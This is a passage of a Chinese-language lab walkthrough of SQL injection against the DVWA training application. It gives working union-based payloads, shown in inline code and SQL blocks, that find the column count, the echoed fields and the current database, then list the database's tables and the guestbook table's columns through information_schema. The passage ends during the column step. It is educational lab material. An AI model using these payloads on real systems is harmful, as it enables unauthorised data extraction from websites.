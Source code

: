 ![image-20211101201342942](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947777.png)

输入`1' or 1=1 order by 3 #`，有报错信息：

![image-20211101143223866](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947047.png)

说明执行的SQL查询语句中字段数为2，这点在源码中也可以看出来：

![image-20211101172633463](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947766.png)



##### ③确定查询回显位置

`1' union select 1,2#`

由于代码中并没有任何过滤操作，所以这里采取了union联合查询，先判断查询后回显的字段位置。这里可以看到第一个参数对应First name，第二个参数对应Surname。

![image-20211101143355612](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947721.png)



##### ④`database()`查询当前的数据库

`1' union select 111,database()#`

![image-20211101173455493](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947252.png)

当前数据库是dvwa，即目标数据库。



##### ⑤获取数据库中的table

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

这里使用了聚合函数`group_concat()，将相同group的内容聚合起来。information_schema 结构在mysql中用来存储数据库系统信息，比如schemata、tables、columns。

这句语句的作用是得到当前数据库dvwa中的所有表。

![image-20211102213409548](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947072.png)

可以发现，数据库dvwa中有3张表：guestbook、locations和users。



##### ⑥获取表中的column

###### 获取guestbook表中的字段：

```sql
1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook'#
```

![image-20211101174401216](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947073.png)
